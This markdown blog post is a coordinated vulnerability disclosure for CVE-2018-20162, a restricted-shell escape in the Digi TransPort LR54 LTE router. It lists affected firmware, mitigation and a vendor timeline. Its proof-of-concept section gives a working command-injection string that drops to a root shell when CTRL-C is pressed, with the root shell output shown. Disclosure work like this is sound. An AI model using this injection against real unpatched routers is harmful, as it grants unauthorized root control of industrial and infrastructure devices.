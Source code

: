 ```yaml
---
layout: post
title: "CVE-2018-20162: Digi TransPort LR54 Restricted Shell Escape"
author: sgo
category: security
---
```


![lr54](/images/lr54.jpg)

The Digi TransPort LR54 is a high speed LTE router commonly used by industry,
infrastructure, retail and public transportation. 

It supports running python scripts in a restricted sandbox, and has a custom
shell accessible over SSH which is subjected to the same restrictions. The
underlying OS is therefore inaccessible to the administrator.

I've found a way to break out of the sandbox and obtaining a root shell by
exploiting the way the cli handles command line arguments when executing python
scripts:

When an interactive python process receives a SIGINT (trough CTRL-C), arguments
to the script are not properly escaped when passed to the interactive CLI's
error logging handler. This allows an attacker to execute arbitrary commands
as root.

To exploit this vulnerability, an attacker needs to have interactive CLI access
with 'super' privileges. A user with this access level is enabled by default on
the device.

# Vulnerable

Digi Transport LR54 (and maybe related products like WR64 and WR54)

- Firmware Version  : 4.4.0.26 10/29/2018 21:14:06
- Firmware Version  : 4.3.2.24 09/06/2018 00:58:34

And maybe earlier versions

# Migitation

Users should upgrade to firmware version 4.5.1.4 or newer. Secrets stored on the
device, like private keys and passphrases, should be changed as a precaution.

# Proof of Concept

1. Upload `sleep.py` to the LR54 using scp or sftp, containing: 
  ```
import time;time.sleep(10)
  ```
2. Execute the following command in the LR54 cli: 
  ```
python sleep.py --XXX $(/bin/sh -i >&2)
  ```
3. Immediately press `CTRL-C` after the program starts

4. You are then dropped to an interactive root shell 
  ```
/home/digi/user # uname -a
Linux (none) 3.10.14 #1 SMP Mon Oct 29 16:18:10 CDT 2018 mips GNU/Linux
/home/digi/user # id
uid=0(root) gid=2000(users_rw) groups=2000(users_rw),2002(users_super)
  ```

# Timeline

- 2018-12-13: Vulnerability discovered
- 2018-12-14: PoC created, Vendor notified
- 2018-12-14: Vendor confirmed, 60 day embargo. Applied for CVE.
- 2018-12-15: CVE-2018-20162 assigned
- 2018-12-31: Received pre-release firmware. Confirmed not vulnerable.
- 2019-01-02: Vendor releases fixed firmware 4.5.1.4
- 2019-01-25: Vendor updated release notes to reference CVE-2018-20162
- 2019-02-13: Vendor ok'ed disclosure, Embargo lifted

# References

- [https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54](https://www.digi.com/products/networking/cellular-routers/digi-transport-lr54)
- [http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf](http://ftp1.digi.com/support/firmware/transport/LR54/v4.5.1.4/93001306_L.pdf)
- [https://www.digi.com/resources/security](https://www.digi.com/resources/security)
- [https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape](https://blog.hackeriet.no/cve-2018-20162-digi-lr54-restricted-shell-escape)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20162)

# Credits

Vulnerability discovered by Stig Palmquist.

Thanks to @duniel_pls and @alexanderkjall for reviewing this report.
